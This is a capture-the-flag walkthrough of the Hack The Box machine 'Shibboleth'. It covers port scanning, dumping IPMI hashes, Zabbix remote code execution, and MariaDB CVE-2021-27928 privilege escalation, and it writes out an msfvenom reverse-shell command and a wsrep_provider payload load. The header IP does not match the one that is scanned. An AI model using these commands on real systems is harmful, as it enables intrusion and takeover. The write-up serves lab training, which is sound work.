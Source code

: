# HTB - Shibboleth

#### Ip: 10.10.10.169
#### Name: Shibboleth
#### Difficulty: Medium

----------------------------------------------------------------------

shibboleth.png

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Shibboleth]
└─$ sudo nmap -p-  --min-rate 10000 10.10.11.124 -sC -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 12:45 CDT
Nmap scan report for 10.10.11.124
Host is up (0.080s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://shibboleth.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: shibboleth.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.95 seconds
```

Lets add shibboleth.htb to our `/etc/hosts` file.

Heading to the website we see a site mostly containing anchor tags and lorem ipsum:

site.png

Though interestingly at the very bottom of the page we see it is running Zabbix:

```text
 Powered by enterprise monitoring solutions based on Zabbix & Bare Metal BMC automation 
```

Double checking there were no UDP ports open I found that port 623 was open:

```text
┌──(ryan㉿kali)-[~/HTB/Shibboleth]
└─$ sudo nmap -sU --min-rate 5000 10.10.11.124
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 12:46 CDT
Nmap scan report for 10.10.11.124
Host is up (0.069s latency).
Not shown: 993 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
623/udp   open   asf-rmcp
21742/udp closed unknown
24511/udp closed unknown
39888/udp closed unknown
40441/udp closed unknown
41446/udp closed unknown
55587/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.72 seconds
```

Port 623 is usually IPMI which has known vulnerabilities:

```text
┌──(ryan㉿kali)-[~/HTB/Shibboleth]
└─$ sudo nmap -sU --script ipmi-version -p 623 shibboleth.htb
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 12:51 CDT
Nmap scan report for shibboleth.htb (10.10.11.124)
Host is up (0.068s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version: 
|   Version: 
|     IPMI-2.0
|   UserAuth: password, md5, md2, null
|   PassAuth: auth_msg, auth_user, non_null_user
|_  Level: 1.5, 2.0

Nmap done: 1 IP address (1 host up) scanned in 0.32 seconds
```

Cool, it is running version 2 which can let attackers dump passsword hashes. lets try to exploit this in Metasploit:

msf.png

We can now try to crack this hash using JohnTheRipper:

john.png

Nice! We were able to crack the administrator's hash. Unfortunately we still have nowhere to use the credentials, so lets keep enumerating. 

Trying some subdomain fuzzing using wfuzz, we get a few matches:

wfuzz.png

Lets add these 3 to `/etc/hosts` as well:

```text
monitor.shibboleth.htb
monitoring.shibboleth.htb
zabbix.shibboleth.htb
```

I'm especially interested in zabbix.shibboleth.htb because we suspect we're dealing with zabbix from earlier enumeration.

Heading to the site we find a login page:

zabbix.png

Cool, we were able to login with the discovered credentials:

login.png

### Exploitation

At the bottom of the page we see which version number we're dealing with- `Zabbix 5.0.17.`

Searching for exploits I find: https://www.exploit-db.com/exploits/50816

Setting up a NetCat listener and firing the exploit we get a shell back as user zabbix:

shell.png


This exploit is especially cool bevause it links the page where the shell was launched from:

exploit.png

Which is good to know if you ever want to exploit this manually without using a public exploit.

Trying to grab the user.txt flag we get permission denied:

```text
zabbix@shibboleth:/home/ipmi-svc$ cat user.txt 
cat: user.txt: Permission denied
```

There appears to be only one user here and we can `su` using the same password discovered before:

```text
zabbix@shibboleth:/home$ ls
ipmi-svc
zabbix@shibboleth:/home$ su ipmi-svc
Password: 
ipmi-svc@shibboleth:/home$ whoami
ipmi-svc
```

user_flag.png

### Privilege Escalation

Browsing around the target we find an interesting file `/etc/zabbix/zabbix_server.conf`

Which contains database credentials:

creds.png

Using these credentials to login to MySQL we see it is running version 10.3.25

```text
ipmi-svc@shibboleth:~$ mysql -u zabbix -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 1170
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

This version has a command execution vulnerability. https://github.com/Al1ex/CVE-2021-27928

To exploit this first we'll need to craft a reverse shell executable using msfvenom:

```text
┌──(ryan㉿kali)-[~/HTB/Shibboleth]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.72 LPORT=1234 -f elf-so -o shell.so

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: shell.so
```

Next we can use Wget and a Python HTTP server to fetch it:

transfer.png

Then we can execute it with:

```text
mysql -u zabbix -p -e 'SET GLOBAL wsrep_provider="/tmp/shell.so";'
```
And we instantly get a shell back as root, and we can grab the final flag:

root_flag.png

Thanks for following along!

-Ryan

--------------------------------------------